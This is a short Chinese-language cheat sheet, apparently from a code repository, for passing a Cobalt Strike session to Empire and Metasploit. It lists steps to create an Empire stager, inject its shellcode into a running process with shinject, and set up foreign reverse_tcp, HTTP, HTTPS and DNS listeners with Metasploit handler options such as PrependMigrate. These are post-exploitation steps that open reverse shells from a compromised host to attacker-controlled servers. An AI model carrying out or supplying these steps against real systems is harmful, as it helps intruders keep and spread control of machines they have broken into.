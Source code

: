  #### 派生Empire
	创建一个Listener
	创建一个stager
	>usestager windows/shellcode 执行，会生成/tmp/launcher.bin
	CS 使用PS命令查找进程，进行进程注入(>shinject 进程id x64)，选择launcher.bin即可
 #### 派生MSF
	使用CS的外部监听器
	windows/foreign/reverse_dns_txt
	windows/foreign/reverse_http
	windows/foreign/reverse_https
	windows/foreign/reverse_tcp
	msf开启监听
	Set LHOST and LPORT 设置为beacon
	Set DisablePayloadHandler to True
	Set PrependMigrate to True
	exploit -j
	cobalt strike会话主机上点击spwan，创建外部监听器，选择windows/foreign/reverse_tcp指定MSF监听的IP和端口即可